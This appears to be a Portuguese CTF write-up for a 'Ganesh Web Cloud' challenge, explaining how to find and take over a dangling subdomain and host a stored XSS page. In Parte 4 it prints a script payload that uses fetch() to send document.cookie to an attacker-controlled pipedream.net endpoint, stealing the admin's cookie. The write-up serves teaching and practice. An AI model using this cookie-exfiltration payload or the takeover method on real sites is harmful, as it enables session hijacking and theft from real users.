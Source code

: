 # Ganesh Web Cloud ~ Subdomain Takeover + XSS

## Investigando o Desafio

Neste desafio nos deparamos com uma página de um blog simples que contem as seguintes páginas:

- **Homepage:** Contém uma lista de posts cujos links levam para uma mesma postagem (provavelmente a única do desafio), uma barra lateral que nos permite enviar links para um administrador (provavelmente sendo usada por algum bot) e dois links no rodapé para as páginas dos autores.
- **Autor Charles/Van Loon:** páginas simples com o nome dos autores, um background simples e nenhuma capacidade de iteração adicional. Porém localizadas em um subdominio do blog (http://charles.blog.ganeshicmc.com:8001/ e http://vanloon.blog.ganeshicmc.com:8001/)
- **Post do Blog:** um post simples com formulário para comentário que reflete na página (não salva num DB, apenas cria uma url) e que parece estar sanitizando o input contra XSS. (http://blog.ganeshicmc.com:8001/blog/diario-viajante-ep7/)

Analisando o JS da página não encontramos nada que possa indicar algum possível DOM-XSS e vemos que um cookie está sendo configurado:

```
Set-Cookie: flag=Ganesh%7BYou_4re_N0t_Th3_4dmiN_baka%7D; Domain=blog.ganeshicmc.com; Path=/
```

## Parte 1 ~ Descobrindo o Subdomain Takeover

A primeira etapa do desafio necessita que o usuário perceba que as páginas dos autores não levam para um novo path e sim para um subdomínio. Percebendo isso podemos utilizar algum utilitário de DNS para descobrir que os subdomínios foram configurados como CNAME para um hostname `myprofile.ganesh.icmc.com` que pode ser acessado pela url http://myprofile.ganeshicmc.com:8001/. 

## Parte 2 ~ Estudando o Myprofile

Dentro do Myprofile, encontramos um serviço em que podemos fazer as seguintes ações:

- **Login/Registro** dado um par usuário e senha podemos criar ou entrar em uma conta existente no sistema. Não é vulnerável a SQL injection.
- **Editar Perfil** dentro da conta temos um formulário com dois campos:
  - **Custom Domain:** permite atrelar um domínio à sua conta.
  - **HTML Content** permite inserir texto HTML válido.
- **Visualizar perfil** exibe o conteúdo inserido de HTML Content na página anterior sem nenhum tipo de sanitização.

## Parte 3 ~ Encontrando Subdomínios vulneráveis

Dado que Myprofile existe e nos permite criar páginas com payloads XSS ao nosso dispor, queremos encontrar outros subdomínios do blog que apontem para o Myprofile mas que estejam disponíveis para uso (vanloon e charles no caso já estão sendo utilizados). Para isso podemos ter 2 métodos:

- **1º - Bruteforce aleatório:** testar combinações de caracteres alfanuméricos para encontrar subdomínios do blog que apontem para myprofile, OU
- **2º - Ataque de Dicionário** testar subdomínios dado uma lista de possibilidades.

Neste desafio o objetivo era que o jogador percebesse, ao analisar o HTML da página inicial do blog, que além dos autores Van Loon e Charles havia uma série de outras tags HTML comentadas que poderiam servir como fonte para criação de um dicionário para testes de subdomínios:

```html
<a style="display: none;" data-author="arabe" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Arabe</a>
<a style="display: none;" data-author="baqueta" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Baqueta</a>
<a style="display: none;" data-author="bio" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Bio</a>
<a style="display: none;" data-author="brandt" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Brandt</a>
<a style="" data-author="charles" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Charles</a>
...
<a style="" data-author="vanloon" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Van Loon</a>
<a style="display: none;" data-author="vini" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Vini</a>
```

Para evitar a extração manual, o seguinte snippet poderia ser usado no console para extrair a lista:

```javascript
Array.from(document.getElementsByClassName('authors')[0].getElementsByTagName('a')).map(x => x.dataset.author)
```

Com isso, testando as combinações de subdomínios descobririamos alguns vulneráveis para takeover tal como `guerra.blog.ganeshicmc.com`

## Parte 4 ~ Criando o Payload

Encontrado um subdomínio vulnerável, podemos cadastrar uma conta no Myprofile, cadastrar o domínio `guerra.blog.ganeshicmc.com` e criar um payload que extraia os cookies e envie para algum RequestBin ou outro local de nosso controle como o seguinte:

```html
<script>alert('xss');</script>
<script>fetch('https://ent6k7fximtwm.x.pipedream.net/c=' + document.cookie);</script>
```

Com isto basta enviarmos o link (http://guerra.blog.ganeshicmc.com:8001/) para o administrador e recuperar a flag:

```
Ganesh{S0_th4ts_th3_r3As9n_I_n33d_to_1e4rN_W3b_4nd_NeTw0rkS_Hmmm}
```



